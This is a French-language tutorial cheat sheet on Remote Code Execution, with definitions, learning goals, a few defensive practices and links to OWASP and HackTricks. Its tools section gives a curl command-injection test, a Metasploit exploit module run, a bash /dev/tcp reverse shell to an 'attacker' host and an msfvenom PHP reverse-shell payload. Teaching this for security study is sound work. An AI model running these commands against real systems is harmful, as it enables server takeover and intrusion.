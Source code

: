 ```yaml
---
title: Remote Code Execution
date: '2025-07-15'
draft: false
---
```


# 💻 Remote Code Execution (RCE)

## Qu'est-ce que la Remote Code Execution ?

La Remote Code Execution (RCE) permet d'exécuter du code arbitraire à distance sur un serveur ou une machine cible, souvent via une faille logicielle.

## 🎯 Objectifs pédagogiques

- Comprendre le concept de RCE
- Savoir identifier et exploiter une faille RCE

## 📋 Exemples de scénarios et commandes

- Exploiter une injection de commande pour obtenir un shell
- Utiliser un payload pour exécuter du code à distance
- Prendre le contrôle d'un serveur via une faille RCE

## 🛡️ Bonnes pratiques

- Mettre à jour régulièrement les logiciels
- Restreindre les droits d'exécution
- Surveiller les logs d'exécution de commandes

## 📚 Ressources utiles

- [OWASP - RCE](https://owasp.org/www-community/attacks/Remote_Code_Execution)
- [HackTricks - RCE](https://book.hacktricks.xyz/pentesting-web/rce)

## 🛠️ Outils et commandes les plus utilisés

- **curl** : Tester l'injection de commandes
  ```bash
  curl -X POST -d 'cmd=whoami' http://site-vulnerable/exec.php
  ```
- **Burp Suite** : Automatiser et manipuler les requêtes
- **Metasploit** : Exploiter automatiquement des failles RCE
  ```bash
  msfconsole
  use exploit/multi/http/php_cgi_arg_injection
  set RHOSTS site-vulnerable
  run
  ```
- **ncat / socat** : Reverse shell
  ```bash
  ncat -lvnp 4444
  bash -i >& /dev/tcp/attacker/4444 0>&1
  ```
- **msfvenom** : Générer des payloads personnalisés
  ```bash
  msfvenom -p php/reverse_php LHOST=attacker LPORT=4444 -f raw > shell.php
  ```

---

_Dernière mise à jour : 15 juillet 2025_ 